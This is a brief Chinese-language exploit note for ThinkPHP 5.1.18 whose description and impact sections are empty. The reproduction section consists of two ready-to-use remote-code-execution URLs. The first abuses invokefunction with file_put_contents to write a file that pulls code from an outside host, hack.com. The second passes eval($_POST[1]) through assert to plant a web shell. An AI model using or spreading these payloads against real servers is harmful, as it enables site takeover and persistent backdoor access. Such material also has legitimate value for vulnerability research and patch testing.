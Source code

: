 ```yaml
---
title: Thinkphp 5.1.18
id: zhfly3157
---
```


# Thinkphp 5.1.18

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 1、常规poc

```
http://www.xxxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][0]=index11.php&vars[1][1]=<?=file_put_contents('index_bak2.php',file_get_contents('https://www.hack.com/xxx.js'));?> 
```

### 2、所有目录都无写入权限,base64函数被拦截

```
 http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=eval($_POST[1]) 
```